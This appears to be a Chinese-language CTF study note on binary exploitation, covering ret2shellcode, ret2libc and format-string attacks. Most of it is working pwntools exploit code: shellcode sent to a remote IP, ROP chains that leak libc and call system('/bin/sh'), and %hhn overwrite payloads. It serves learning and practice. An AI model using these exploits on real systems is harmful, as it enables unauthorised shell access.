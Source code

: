 ## Pre

1. `plt, got`
	1. `write.plt`相当于`call write`，执行了两个动作：
		1. 将指针跳转到 write 真实地址
		2. 将返回地址压栈
	2. `write.got`仅将指针跳转到 write 真实地址

## ret2shellcode

```Python
#!/usr/bin/env python
from pwn import *
context(os='linux', arch='amd64')
# sh = process('./pwn')
sh = remote("124.223.159.125", 9024)
shellcode = asm(shellcraft.sh())
print(shellcode)
print(len(shellcode))
print(list(shellcode))
print(shellcode.ljust(48, b'A'))
# buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(48, b'A'))
sh.interactive()
sh.close()
```

## ret2libc

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。
```Python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./pwn')
elf = ELF('./pwn')
puts_plt = elf.plt['puts']
main = elf.symbols['main']
libc_start_main_got = elf.got['__libc_start_main']
pop_rdi_addr = 0x4011c5
print(hex(libc_start_main_got))
payload = b'A' * 40 + p64(pop_rdi_addr) + p64(libc_start_main_got) + p64(puts_plt) + p64(main)
print(''.join(["%02x"%i for i in payload]))
sh.sendlineafter(b'Fine, give you a gift, please write to me:\n', payload)
sh.recvline()
libc_start_main_addr = sh.recvline()
libc_start_main_addr = libc_start_main_addr[:len(libc_start_main_addr) - 1]
libc_start_main_addr = u64(libc_start_main_addr.ljust(8, b'\x00'))
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
sh_str_addr = libcbase + next(elf.libc.search(b'/bin/sh'))
# sh_str_addr = libc.dump('str_bin_sh') + libc_base

print(f"Get {hex(system_addr) = }")
print(f"Get {hex(sh_str_addr) = }")
print(f"Get {hex(libcbase) = }")
payload = b'A' * 40 + p64(pop_rdi_addr + 1) + p64(pop_rdi_addr) + p64(sh_str_addr) + p64(system_addr) 

sh.sendlineafter(b'Fine, give you a gift, please write to me:\n', payload)
sh.interactive()
sh.close()
```
1. `b'A' * 40`
2. `p64(pop_rdi_addr + 1)`：`ret`地址
	2. ![](PWN/image-20231208230554474.png)
3. `p64(pop_rdi_addr`：`pop rdi;ret;`地址
4. `p64(sh_str_addr)`
5. `p64(system_addr)`

## fmt

### definition
格式化字符串的格式如下

`%[parameter][flags][field width][.precision][length]type`

以下几个 pattern 中的对应选择需要重点关注
- parameter
    - n$，获取格式化字符串中的指定参数
- flag
	- hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
	- h 对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
- field width
    - 输出的最小宽度
- precision
    - 输出的最大长度
- length，输出的长度
    - hh，输出一个字节
    - h，输出一个双字节
- type
    - d/i，有符号整数
    - u，无符号整数
    - x/X，16 进制 unsigned int 。x 使用小写字母；X 使用大写字母。如果指定了精度，则输出的数字不足时在左侧补 0。默认精度为 1。精度为 0 且值为 0，则输出为空。
    - o，8 进制 unsigned int 。如果指定了精度，则输出的数字不足时在左侧补 0。默认精度为 1。精度为 0 且值为 0，则输出为空。
    - s，如果没有用 l 标志，输出 null 结尾字符串直到精度规定的上限；如果没有指定精度，则输出所有字节。如果用了 l 标志，则对应函数参数指向 wchar_t 型的数组，输出时把每个宽字符转化为多字节字符，相当于调用 wcrtomb 函数。
    - c，如果没有用 l 标志，把 int 参数转为 unsigned char 型输出；如果用了 l 标志，把 wint_t 参数转为包含两个元素的 wchart_t 数组，其中第一个元素包含要输出的字符，第二个元素为 null 宽字符。
    - p， void * 型，输出对应变量的值。printf("%p",a) 用地址的格式打印变量 a 的值，printf("%p", &a) 打印变量 a 所在的地址。
    - n，不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。
    - %， '`%`'字面值，不接受任何 flags, width。

1. 利用`%x`来获取对应栈的内存，但建议使用 `%p`，可以不用考虑位数的区别。
2. 利用`%s`来获取变量所对应地址的内容，只不过有零截断。
3. 利用`%order$x`来获取指定参数的值，利用 `%order$s` 来获取指定参数对应地址的内容。
4. 利用`addr%k$s`获取某个指定地址 `addr` 的内容：`%k$s`指向格式化字符串，32或64位的`addr`，使输出函数获取参数时将`addr`解析为字符串
5. `fmtstr_payload(7, {puts_got: system_addr})` 的意思就是，格式化字符串的偏移是 7，希望在 puts_got 地址处写入 system_addr 地址。默认情况下是按照字节来写的。

### challenge

#### 1

```C
__int64 __fastcall read_mess(__int64 a1, int a2)
{
    unsigned int i; // [rsp+18h] [rbp-8h]
    int v4; // [rsp+1Ch] [rbp-4h]

    for ( i = 0; (int)i <= a2; ++i )
    {
        v4 = read(0, (void *)((int)i + a1), 1uLL);
        if ( v4 < 0 )
        {
            perror("read");
            exit(-1);
        }
        if ( !v4 )
            break;
        if ( *(_BYTE *)((int)i + a1) == 10 )
        {
            *(_BYTE *)((int)i + a1) = 0;
            return i;
        }
    }
    return i;
}
unsigned __int64 fmt()
{
    char format[264]; // [rsp+0h] [rbp-110h] BYREF
    unsigned __int64 v2; // [rsp+108h] [rbp-8h]

    v2 = __readfsqword(0x28u);
    puts("wuhu~");
    read_mess(format, 256LL);
    printf(format);
    return v2 - __readfsqword(0x28u);
}
```

##### exp

```Python
from pwn import *

elf = ELF('./pwn')
lib = elf.libc

def fmt():
    p = process('./pwn')
    # 将格式化字符串第38个参数所指向的数的最后一字节改为0x5E
    payload = b'%94c%38$hhn'
    # 输出(fmt返回地址在栈中的地址+0x8)
    payload += b'%40$p'
    # 输出__libc_start_main
    payload += b'%63$p'
    payload = payload.ljust(0x100, b'a')
    # 将格式化字符串第38个参数最后一个字节覆盖为0x88
    payload += b'\x88'

    p.recvuntil(b'~')
    p.send(payload)
    p.recvuntil(b'0x')
    rbp_addr = int(p.recv(12), 16)
    # 检测main的栈底最后一个字节是不是0x90
    #   只有在是的情况下，
    #   前面覆盖为0x88才能使格式化字符串第38个参数所指向的数为fmt的返回地址
    last_num = rbp_addr & 0xff
    if last_num - 8 != 0x88:
        return
    global flag
    flag = 1

    p.recvuntil(b'0x')
    base_addr = int(p.recv(12), 16) - 0x80 - lib.sym['__libc_start_main']  # 0x7f7b2c229e40
    log.success(f"base_addr: {hex(base_addr)}")
    system_addr = base_addr + lib.sym['system']
    pop_rdi = base_addr + 0x000000000002a3e5
    print(hex(pop_rdi))


    p.recvuntil(b'~')
    # 将放入rbp_addr - 0x10的指向的fmt返回时弹出栈的main的栈底值的最后一个字节改为0
    payload = b'%22$hhn'
    # 将放入rbp_addr - 0x8的指向fmt返回地址最后一个字节改为0x13，即返回leave；ret的位置
    payload += b'%19c%23$hhn'
    payload = payload.ljust(0x80, b'a')
    # 上面要更改位置的地址
    payload += p64(rbp_addr - 0x10) + p64(rbp_addr - 0x8)
    # 将 '/bin/sh'放入flag_addr的位置
    # 输入字符串存储的位置中找一块放 '/bin/sh'
    flag_addr = rbp_addr - 0x90
    payload += b'/bin/sh\00'

    payload += p64(pop_rdi + 1) + p64(pop_rdi) + p64(flag_addr) + p64(system_addr)
    # gdb.attach(p)
    # pause()
    # gdb.attach(p, 'breakrva 0x12f9')
    p.sendline(payload)
    p.interactive()
    p.close()

if __name__ == '__main__':
    flag = 0
    while True:
        if flag == 1:
            break
        fmt()

```

![](PWN/image-20231211214330160.png)